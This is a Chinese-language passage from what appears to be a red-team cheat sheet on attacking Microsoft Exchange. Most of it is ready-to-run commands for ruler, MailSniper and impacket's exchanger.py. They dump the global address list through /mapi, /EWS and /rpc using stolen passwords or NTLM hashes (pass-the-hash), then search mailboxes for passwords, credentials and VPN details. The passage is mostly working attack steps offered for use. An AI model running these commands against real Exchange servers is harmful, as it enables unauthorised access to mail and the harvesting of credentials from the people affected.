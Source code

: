 #### /mapi

[sensepost/ruler](https://github.com/sensepost/ruler) - ruler 主要通过 /mapi 模拟 Outlook 通信，通过 /Autodiscover 实现与 Outlook 类似的自动配置能力，ruler 会自动发现 Exchange 域内的域名并访问。但如果攻击者处于域外的话，会因为 DNS 无法解析导致攻击失败，需要攻击者手动配置域名解析。

```
ruler --insecure --url https://MAIL/autodiscover/autodiscover.xml --email test@test.com -u test -p 密码 --verbose --debug abk dump -o list.txt
```

```
ruler-win64.exe --insecure --url https://192.168.123.123/autodiscover/autodiscover.xml --email zhangsan@island.com -u zhangsan -p ZS@123qwe --verbose --debug abk list
ruler-win64.exe --insecure --url https://192.168.123.123/autodiscover/autodiscover.xml --email zhangsan@island.com -u zhangsan --hash 82b6413f42426e0b40e6d0674eb16299 --verbose --debug abk list
```

#### /EWS

[dafthack/MailSniper](https://github.com/dafthack/MailSniper) - 通过 /EWS 指定搜索条件获取 GAL，类似于爆破，很慢。

```
Get-GlobalAddressList -ExchHostname MAIL -UserName CORP\test -Password 密码 -OutFile global-address-list.txt
```

```
# MailSniper.ps1
Get-GlobalAddressList -ExchHostname 192.168.123.123 -username island.com\lisi -password LS@123qwe -OutFile global-address-list.txt
```

#### /rpc

[impacket](https://github.com/SecureAuthCorp/impacket) - 通过 /RPC 接口配合 [MS-OXNSPI] 和 [MS-NSPI] 协议直接获取 AD 中的地址簿信息，最快。

```
python3 exchanger.py DOMAIN/test:密码@MAIL nspi list-tables
python3 exchanger.py DOMAIN/test:密码@MAIL nspi dump-tables -guid xxxx
```
```
python3 exchanger.py island.com/zhangsan@192.168.123.123 -hashes :82b6413f42426e0b40e6d0674eb16299 nspi list-tables
python3 exchanger.py island.com/zhangsan:ZS@123qwe@192.168.123.123 nspi list-tables -count
python3 exchanger.py island.com/zhangsan:ZS@123qwe@192.168.123.123 nspi dump-tables -guid dd5c6c6e-f050-4fef-b91f-4ac4cb16d5cb
```

---

### 邮件导出

如果爆出了密码，直接 web 端访问 /OWA 登录查看。

如果获得了 hash，可以 pth 后 Invoke-SelfSearch 访问 /ews 查看：
```bash
# MailSniper.ps1
# 指定 lisi 的账密查询 lisi 的所有邮件
Invoke-SelfSearch -Folder all -Mailbox lisi@island.com -ExchHostname win2012-ex2016.island.com -MailsPerUser 500 -Terms "*password*","*creds*","*credentials*","*测试*","*密码*","*拓扑*","*运维*","*VPN*","*账号*" -OutputCsv lisi-email-search.csv -Remote -User island.com\lisi -Password LS@123qwe

# 用当前会话的默认凭证搜索 zhangsan 的所有邮件
# 配合 mimikatz 实现 pth 后搜索
Invoke-SelfSearch -Folder all -Mailbox zhangsan@island.com -ExchHostname win2012-ex2016.island.com -MailsPerUser 500 -Terms "*password*","*creds*","*credentials*","*测试*","*密码*","*拓扑*","*运维*","*VPN*","*账号*" -OutputCsv zhangsan-email-search.csv
```
